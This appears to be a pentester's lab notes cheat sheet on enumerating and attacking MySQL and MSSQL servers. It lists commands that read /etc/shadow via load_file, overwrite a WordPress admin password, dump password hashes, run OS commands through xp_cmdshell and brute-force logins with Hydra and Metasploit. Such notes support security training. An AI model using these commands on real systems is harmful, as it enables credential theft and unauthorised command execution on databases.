




# Initial Enumeration

- `mysql -h 192.71.145.3 -u root`
	- show databases;
	- use books;
	- show tables;
	- select count(\*) from authors;
	- select load_file("/etc/shadow");
	- UPDATE <table> SET <field> = <value> WHERE <field2> = <value>;
	- UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';

# Nmap scripts

- mysql-empty-password : check anon login
- mysql-info : check InteractiveClient capability
- mysql-users --script-args="mysqluser='root',mysqlpass=''"
- mysql-databases --script-args="mysqluser='root',mysqlpass=''"
- mysql-variables --script-args="mysqluser='root',mysqlpass=''" : check data-dir
- mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" : check if file privs can be granted
- mysql-dump-hashes --script-args="username='root',password=''"
- mysql-query --script-args="query='select count(\*) from books.authors;',username='root',password=''"
- ms-sql-info
- ms-sql-ntlm-info --script-args mssql.instance-port=1433
- ms-sql-brute --script-args userdb=<userlist>,passdb=<passlist>

- ms-sql-empty-password
- ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" 
- ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
- ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"
- ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
	
# Metasploit Modules

- auxiliary/scanner/mysql/mysql_schemadump : Dump the schema of all databases from the server  

- auxiliary/scanner/mysql/mysql_writable_dirs : writable dirs
- auxiliary/scanner/mysql/mysql_file_enum : readable files
- auxiliary/scanner/mysql/mysql_hashdump : database users hashdump

- auxiliary/scanner/mysql/mysql_login
- auxiliary/scanner/mssql/mssql_login
- auxiliary/admin/mssql/mssql_enum
- auxiliary/admin/mssql/mssql_enum_sql_logins : user enum
- auxiliary/admin/mssql/mssql_exec : execute a cmd is xp_cmdshell enabled
- auxiliary/admin/mssql/mssql_enum_domain_accounts : mps the information such as Windows domain users, groups, and computer accounts
  
  
  
- auxiliary/admin/mysql/mysql_sql - needs creds to run sql queries.
- wordlists: 
	- usr/share/metasploit-framework/data/wordlists/directory.txt
	- usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Hydra

- `hydra -l <user> -P <wordlist> <ip> mysql`
